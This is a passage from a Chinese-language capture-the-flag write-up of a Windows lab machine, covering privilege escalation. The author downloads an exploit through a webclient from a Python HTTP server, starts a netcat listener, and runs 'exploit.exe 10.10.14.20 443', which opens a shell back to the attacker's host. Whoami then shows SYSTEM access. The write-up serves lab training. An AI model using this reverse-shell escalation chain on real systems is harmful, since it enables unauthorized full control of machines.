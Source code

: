 回到获取用户标志的 shell，我用漏洞的 URL 和保存漏洞的文件设置了一个 webclient:

![Screenshot-2020-02-25-at-23.58.22](img/2a916a0501d8fe7f83db930ac8478b7b.png)![Screenshot-2020-02-25-at-23.58.35](img/b2e037665dda6d4c3a03d22fe25de772.png)![Screenshot-2020-02-25-at-23.58.45](img/268821f7da7592b5088f23e302709120.png)![Screenshot-2020-02-25-at-23.58.53](img/d553d8222b05fa586e8b4cac25d40426.png)![Screenshot-2020-02-26-at-00.00.14](img/e0edd301c0f0c31a765c32c1470dbbb1.png)

我在 python http 服务器上得到一个 200:

![Screenshot-2020-02-26-at-00.01.37](img/6ed2a09ca9b289b75f4c065ab0d8184b.png)

我设置了一个新的 netcat，并使用以下命令启动漏洞利用:

```
exploit.exe 10.10.14.20 443
```

![Screenshot-2020-02-26-at-00.00.21](img/4169d3d180d3cbc28c5a87186eef02cf.png)![Screenshot-2020-02-26-at-00.00.30](img/25b344794e88ca53237b065a258114ce.png)

## 步骤 8 -查找 root.txt 标志

通过检查机器上的我是谁，我可以看到权限提升是成功的:

```
whoami
```

它回来了

```
nt authority\system
```

我是管理员:

![Screenshot-2020-02-26-at-00.02.50](img/d7b910eb64318c3e3ff986cfc66cd8d9.png)

我导航到用户:
